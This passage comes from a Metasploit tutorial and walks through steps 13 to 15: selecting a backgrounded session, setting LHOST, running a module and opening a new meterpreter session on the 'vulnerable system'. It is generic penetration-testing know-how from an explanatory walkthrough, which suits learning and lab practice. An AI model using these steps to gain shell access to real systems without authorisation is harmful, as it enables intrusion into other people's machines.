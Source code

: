 As you can see we need to select a backgrounded session and specify a LHOSTS.

    Step 13:
    Enter the following information to select the session and set LHOSTS:

    set session 1

    select lhosts <DOMAIN,IP,HOST>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit13.png)

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit14.png)

    Step 14:
    Enter the following command to run the exploit and verify the new session is available:

    run

    sessions

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit15.png)

    Step 15:
    Select the newly created session by entering the following:
    
    sessions -i 2

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit16.png)

The new meterpreter session is started and now you have access to the vulnerable system where you can further perform attack measures. 

